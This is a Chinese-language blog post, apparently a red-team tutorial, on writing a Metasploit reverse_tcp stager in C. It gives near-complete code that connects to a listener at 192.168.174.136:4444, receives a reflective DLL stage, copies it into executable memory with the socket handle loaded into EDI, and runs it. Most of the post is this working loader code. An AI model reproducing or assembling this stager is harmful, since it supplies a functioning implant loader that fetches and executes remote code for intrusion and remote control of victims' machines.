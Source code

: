```yaml
---
title: msf stagers开发不完全指北(一)
slug: msf-stagers-develop-1
date: 2020-06-23 18:19:00
tags:
- msf
- 红队
- 工具
categories:
- 开发
---
```


# 采用c开发stagers

<!--more-->

## 前言

之前有写过一篇 [metasploit payload运行原理浅析(sockedi调用约定是什么)](https://www.cnblogs.com/Akkuman/p/12859091.html)，里面有提到以后了解这些东西后可以做的事情，其实包括但不限于自写stagers，扩展C2 实现。本系列将从之前这篇文章中获取到的原理性知识进行实践，一步步记录我在这个过程中踩到的坑与收获，这个系列可能会更新得比较慢，也可能会不定期鸽，希望大家能够一同学习，有什么错误的地方也欢迎大家来探讨指正。

## 前情提要

上面我们给出的文章讲到关于第一阶段与第二阶段的交互原理

简要概括一下，对于 reverse_tcp 的payload 来说，所给出的 payload 是第一阶段 (stagers)，然后它会发起 socket tcp 连接请求向远端请求第二阶段 (stages) ，这个阶段是一个反射 dll，然后把 socket fd (socket文件描述符) 放入 edi 寄存器，开始从起始地址执行第二阶段，第二阶段后续的操作会用到这个 socket fd，所以一开始需要传入，后面的关于这个 dll 具体运作以及为什么能直接从起始地址开始跑我们暂时不需要关心，这个在我上一篇文章中已有提及。

## 明确思路

上面的流程说的已经比较明白了（此篇文章里我将采用 [metasploit-loader](https://github.com/rsmudge/metasploit-loader/blob/master/src/main.c) 作为代码讲解）：

1. 向 msf 监听地址发起 tcp 请求

2. 获取 stages

3. 将 socket fd 放入寄存器 edi

4. 从起始地址开始执行 stages



### 发起tcp请求stages

先贴代码

首先我们需要创建一个socket连接

```c
/* 错误处理 */
void punt(SOCKET my_socket, char * error) {
	printf("Bad things: %s\n", error);
	closesocket(my_socket);
	WSACleanup();
	exit(1);
}

...

WSADATA	wsaData;
WORD 		wVersionRequested;

wVersionRequested = MAKEWORD(2, 2);

if (WSAStartup(wVersionRequested, &wsaData) < 0) {
    printf("ws2_32.dll is out of date.\n");
    WSACleanup();
    exit(1);
}

struct hostent *		target;
struct sockaddr_in 	sock;
SOCKET 			my_socket;
char* targetip = "192.168.174.136"
int port = 4444

/* 创建socket */
my_socket = socket(AF_INET, SOCK_STREAM, 0);
if (my_socket == INVALID_SOCKET)
    punt(my_socket, "Could not initialize socket");

/* 解析targetip*/
target = gethostbyname(targetip);
if (target == NULL)
    punt(my_socket, "Could not resolve target");


/* 准备tcp连接相关信息 */
memcpy(&sock.sin_addr.s_addr, target->h_addr, target->h_length);
sock.sin_family = AF_INET;
sock.sin_port = htons(port);

/* 连接 */
if ( connect(my_socket, (struct sockaddr *)&sock, sizeof(sock)) )
    punt(my_socket, "Could not connect to target");
```

这部分代码就是和我们的 msf 监听地址建立 socket 连接

接下来关于stages有点需要说明的。

stages结构：

- 开头 4byte 是后续的 tcp 包长度
- 4byte 后紧跟的是一个 dll，也就是一个pe文件

那么我们按照这个方式去读

```c
int count = recv(my_socket, (char *)&size, 4, 0);
if (count != 4 || size <= 0)
    punt(my_socket, "read a strange or incomplete length value\n");
```

读出后面的 dll 数据包长度

然后我们开始读取 dll

```c
/* 接收指定长度的数据 */
int recv_all(SOCKET my_socket, void * buffer, int len) {
	int    tret   = 0;
	int    nret   = 0;
	void * startb = buffer;
	while (tret < len) {
		nret = recv(my_socket, (char *)startb, len - tret, 0);
		startb += nret;
		tret   += nret;

		if (nret == SOCKET_ERROR)
			punt(my_socket, "Could not receive data");
	}
	return tret;
}

buffer = VirtualAlloc(0, size + 5, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (buffer == NULL)
    punt(my_socket, "could not allocate buffer\n");

/* 把 socket fd 放入 edi 寄存器，注意这里的 socket 句柄需要取到句柄指向的那个数据，而不是句柄指针
	   BF 78 56 34 12     =>      mov edi, 0x12345678 */
buffer[0] = 0xBF;

/* 构造上面的机器码 */
memcpy(buffer + 1, &my_socket, 4);

/* 把读取出来的数据放到 buffer 后面 */
count = recv_all(my_socket, buffer + 5, size);
```

这里需要注意的地方是把 socket fd 放入 edi，这个过程是比较重要的，具体的原理我在上一篇文章有提到。

## 执行stages

现在我们只需要像之前执行 shellcode 那样执行即可

```c
/* 把buffer强转为一个函数去调用 */
function = (void (*)())buffer;
function();

```

然后把这些代码组合起来进行编译

## 编译

编译需要注意的点是：**payload必须对应**

比如32位的payload必须编译为32位的，相应的64位必须编译为64位